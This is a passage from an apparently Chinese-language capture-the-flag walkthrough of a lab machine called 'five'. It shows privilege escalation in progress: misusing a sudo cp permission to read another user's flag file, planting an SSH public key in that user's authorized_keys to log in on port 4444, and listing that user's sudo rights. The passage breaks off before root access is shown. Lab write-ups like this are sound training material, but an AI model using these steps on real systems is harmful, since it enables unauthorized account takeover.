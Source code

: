 ```Bash
```
www-data用户可以用melisa用户的CP命令权限

直接复制user.txt到1.txt并查看1.txt是不行的

因为1.txt也是属于melisa的文件。当前用户无法查看

我们要自己给自己创建一个属于自己的文件 然后复制user.txt到这个文件里面

而且还要先将这个文件给melisa用户读写权限。不然meilisa写不了

```Bash
touch 1.txt
chmod a+rw 1.txt
sudo -u melisa cp /home/melisa/user.txt /tmp/1.txt
```

5.提权root

当前用户除了melisa的cp权限就没有什么明显可以利用的东西了。我们直接借助cp写公钥给melisa 然后ssh上去

看一下ssh的配置

```Bash
cat /etc/ssh/sshd\_config
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.010.png)

4444端口开放

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.011.png)

写公钥连接melisa用户

```Bash
cd /tmp
ssh-keygen //生成公私钥
sudo -u melisa cp id\_rsa.pub /home/melisa/.ssh/authorized\_keys //写入公钥
ssh -i id\_rsa -p 4444 melisa@127.0.0.1
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.012.png)

```Bash
melisa@five:~$ sudo -l
Matching Defaults entries for melisa on five:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
```

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.013.png)

但是会发现使用 Sudo man man 无法执行命令

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.014.png)
